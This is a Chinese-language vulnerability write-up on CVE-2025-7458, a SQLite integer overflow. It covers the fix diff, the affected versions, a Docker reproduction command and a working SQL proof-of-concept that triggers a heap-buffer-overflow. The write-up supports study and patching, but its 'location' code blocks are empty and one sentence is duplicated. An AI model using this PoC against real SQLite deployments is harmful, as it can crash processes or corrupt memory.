


# CVE-2025-7458 CWE-190 SQLite 整数溢出

## 漏洞背景

- **SQLite：** 一个轻量级的、嵌入式的关系型数据库管理系统，它不需要单独的服务器进程，也不需要复杂的配置。SQLite 直接在文件系统上存储数据，具有零配置、易于使用和适合小型应用的特点。它支持标准的 SQL 语句，提供良好的数据安全性，并且因其轻量级特性被广泛应用于桌面和移动应用开发中。
- **CWE-190（Integer Overflow or Wraparound）**

## 漏洞原理

SQLite 的 `sqlite3KeyInfoFromExprList` 函数中存在整数溢出问题。攻击者通过构造一个包含大量表达式的 `ORDER BY` 子句，在执行 SQL 查询时触发溢出，从而可能导致内存损坏、进程崩溃或泄露敏感数据。

## 漏洞定位

1、

```c

```

2、

```c

```


## 漏洞修复

新增的代码确保了 pWInfo->nOBSat（WHERE 子句中已排序的表达式数量）不会超过 pWInfo->pSelect->pOrderBy->nExpr（SELECT 语句中实际的 ORDER BY 表达式数量）。如果 `pWInfo->nOBSat` 大于 `pWInfo->pSelect->pOrderBy->nExpr`，则将 `pWInfo->nOBSat` 限制为 `pWInfo->pSelect->pOrderBy->nExpr` 的值。如果 `pWInfo->nOBSat` 大于 `pWInfo->pSelect->pOrderBy->nExpr`，则将 `pWInfo->nOBSat` 限制为 `pWInfo->pSelect->pOrderBy->nExpr` 的值。

```diff
Index: src/where.c
==================================================================
--- src/where.c
+++ src/where.c
@@ -5297,10 +5297,14 @@
     pWInfo->nOBSat = pFrom->isOrdered;
     if( pWInfo->wctrlFlags & WHERE_DISTINCTBY ){
       if( pFrom->isOrdered==pWInfo->pOrderBy->nExpr ){
         pWInfo->eDistinct = WHERE_DISTINCT_ORDERED;
       }
+      if( pWInfo->pSelect->pOrderBy
+       && pWInfo->nOBSat > pWInfo->pSelect->pOrderBy->nExpr ){
+        pWInfo->nOBSat = pWInfo->pSelect->pOrderBy->nExpr;
+      }
     }else{
       pWInfo->revMask = pFrom->revLoop;
       if( pWInfo->nOBSat<=0 ){
         pWInfo->nOBSat = 0;
         if( nLoop>0 ){
```

## 影响版本

SQLite :

- 3.39.2 to 3.41.1

## 环境搭建

启动 Docker 环境，SQLite 版本为 3.40.0，其中在编译时开启了 ASAN 内存检测

```txt
CNA:Google Inc.    CVSS-B 6.9 MEDIUM    Vector:CVSS:4.0/AV:L/AC:L/AT:N/PR:L/UI:N/VC:H/VI:N/VA:L/SC:N/SI:N/SA:N
```

```txt
cpe:2.3:a:sqlite:sqlite:3.40.0:*:*:*:*:*:*:*
```



## 漏洞复现

进入容器命令行，执行 PoC 文件，可以看到 ASan 检测到了一个 堆缓冲区溢出（heap-buffer-overflow）

```bash
docker exec -it sqlite-3.40.0 sqlite3 test_db ".read CVE-2025-7458-PoC.sql"
```



## PoC分析

```sql
SELECT  DISTINCT
    1,  1,  1,  1,  1,  1,  1,  1,  1,  1,
    1,  1,  1,  1,  1,  1,  1,  1,  1,  1,
    1,  1,  1,  1,  1,  1,  1,  1,  1,  1,
    1,  1,  1,  1,  1,  1,  1,  1,  1,  1,
    1,  1,  1,  1,  1,  1,  1,  1,  1,  1,
    1,  1,  1,  1,  1,  1,  1,  1,  1,  1,
    1,  1,  1,  1,  1
  ORDER  BY
   'x','x','x','x','x','x','x','x','x','x',
   'x','x','x','x','x','x','x','x','x','x',
   'x','x','x','x','x','x','x','x','x','x',
   'x','x','x','x','x','x','x','x','x','x',
   'x','x','x','x','x','x','x','x','x','x',
   'x','x','x','x','x','x','x','x','x','x',
   'x','x','x','x';
```

## 参考链接

[NVD - CVE-2025-7458](https://nvd.nist.gov/vuln/detail/CVE-2025-7458#range-16921720)

[SQLite: Check-in [12ad822d9b\]](https://sqlite.org/src/info/12ad822d9b827777)
